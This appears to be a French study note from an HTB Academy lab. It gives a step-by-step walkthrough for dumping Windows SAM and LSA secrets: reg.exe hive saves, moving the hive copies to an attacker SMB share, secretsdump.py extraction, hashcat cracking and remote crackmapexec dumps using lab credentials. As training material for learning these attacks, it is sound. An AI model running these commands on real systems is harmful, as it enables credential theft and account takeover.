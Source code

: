 ```yaml
---
title:  "Attaque du SAM"
category: "Attaque de mots de passe local Windows"
tag: "Attaques de mots de passe"
---
```


En ayant accès à un système Windows n'ayant pas rejoint de domaine, on peut facilement récupérer les fichiers associés à la Base de données SAM (contenant les hashes des mdp qui se trouve dans le dossier C:\Windows\System32\config) et les transférer à notre machine afin de les cracker offline.

## Copie des ruches de registres
En ayant un accès admin local sur la cible, on peut récupérer 3 ruches de registres qui vont aider à cracker les hashes.

| Répertorie de registres | Description |
|-------------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| hklm\sam                | Contient les hachages associés aux mots de passe des comptes locaux. Nous aurons besoin de ces hachages pour les craquer et obtenir les mots de passe des comptes utilisateurs en clair. |
| hklm\system             | Contient la clé de démarrage du système, qui est utilisée pour chiffrer la base de données SAM. Nous aurons besoin de la clé de démarrage pour déchiffrer la base de données SAM.         |
| hklm\security           | Contient les informations d'identification en cache pour les comptes de domaine. Il peut être avantageux de l'avoir sur une cible Windows reliée à un domaine.                           |

On peut sauvegarder cette ruche en utilisant l'utilitaire **reg.exe**.

## Utilisation de reg.exe save pour copier les ruches du registre

Il faut sauvegarder en local les ruches de registres en utilisant le CMD en admin :

```console
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```
Ensuite, il faut les transférer sur le poste attaquant. On peut utiliser [Impacket's smbserver.py](https://github.com/fortra/impacket/blob/master/examples/smbserver.py) pour cela.

## Création d'une ressource partagée avec smbserver.py
Pour cela, nous allons lancer le script python smbserver.py avec l'option **-smb2support** qui permet de supporter les nouvelles version de smb venant de l'hôte Windows (SMBv1 par défaut).

```console
Misoko@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support Misoko ~/Documents/
```
Une fois que le partage fonctionne sur notre hôte d'attaque, on peut utiliser la commande **move** sur la cible Windows pour déplacer les copies de ruches sur le partage

## Déplacer les copies de ruches sur le partage
```console
C:\> move sam.save \\10.10.15.16\Misoko
C:\> move security.save \\10.10.15.16\Misoko
C:\> move system.save \\10.10.15.16\Misoko
```
On peut faire un ls sur le share afin d'être sûr d'avoir récupérer les copies des ruches.

## Dump des hashes avec Impacket's secretsdump.py
Impacket's secretsdump.py est installé sur la plupart des distribution, on peut le retrouver avec **locate**.

### Utilisation de secretsdump.py

```console
Misoko@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
On peut voir dans l'output de la commande que la première étape de secretsdump consiste à récupérer la clé de démarrage du système avant de procéder au dump de **LOCAL SAM hashes**.
Il ne peut pas le faire sans la clé car la BDD SAM est chiffré par cette dernière.

## Cracker le hash avec Hashcat
### Ajouter ntshash dans un fichier .txt
Auparavant les hash avaient le format **LM hash**, maintenant on utilise plutôt le **nt**.
Une fois dans le fichier texte, on peut cracker le hash avec hashcat.

### Cracker un hash NT avec Hashcat
Le paramétrage de hashcat dépend du type de hash que l'on veut craquer. Pour cela, se référer à la documentation de l'outil.
Dans l'exemple ici, on va utiliser l'option **-m 1000** et la base de credentials rockyou.
```console
Misoko@htb[/htb]$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

## Dumping à distance & Secrets LSA

Explication des secrets LSA : [Secret LSA](https://www.passcape.com/index.php?section=docsys&cmd=details&id=23).\
Avec l'accès aux credentials en tant que **local admin**, on peut cibler les secrets LSA à travers un réseau.\
On peut donc récupérer des credentials depuis un service en cours d'exécution, tâche planifiée ou application qui utilise les secrets LSA comme stockage de mot de passes.

### Dumping de Secrets LSA à Distance
```console
Misoko@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

### Dumping de SAM à Distance
```console
Misoko@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```